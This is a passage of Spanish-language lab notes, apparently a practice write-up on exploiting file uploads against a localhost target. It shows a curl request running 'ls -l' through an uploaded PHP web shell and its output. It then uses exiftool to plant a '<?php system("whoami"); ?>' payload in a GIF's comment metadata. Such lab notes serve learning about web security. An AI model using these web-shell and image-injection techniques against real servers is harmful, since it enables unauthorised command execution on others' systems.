```bash
curl -s -X GET "http://localhost:9001/upload56/pwned/cmd.php" -G --data-urlencode "cmd=ls -l"
```

Resultado:

```bash
total 4
-rw-r--r-- 1 www-data www-data 33 Jun  9 14:17 cmd.php
```

Explicación:  podemos acudir con `ctrl+u` al código fuente y desde ahí acudir al endpoint de almacenamiento que de normal lo descarga aquí lo podemos visualizar. También podemos verlo desde consola usando [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Comandos/Curl|Curl]]

---
## Ataque metadatos gif

Acción:

```bash
exiftool download.gif
```

Resultado:

```bash
ExifTool Version Number         : 12.57
File Name                       : download.gif
Directory                       : .
File Size                       : 460 kB
File Modification Date/Time     : 2025:06:09 17:55:19+02:00
File Access Date/Time           : 2025:06:09 17:55:19+02:00
File Inode Change Date/Time     : 2025:06:09 17:55:19+02:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 498
Image Height                    : 373
Has Color Map                   : Yes
Color Resolution Depth          : 8
Bits Per Pixel                  : 8
Background Color                : 0
Animation Iterations            : Infinite
Frame Count                     : 39
Duration                        : 3.90 s
Image Size                      : 498x373
Megapixels                      : 0.186
```

Acción:

```bash
 exiftool -Comment='<?php system("whoami"); ?>' download.gif
```
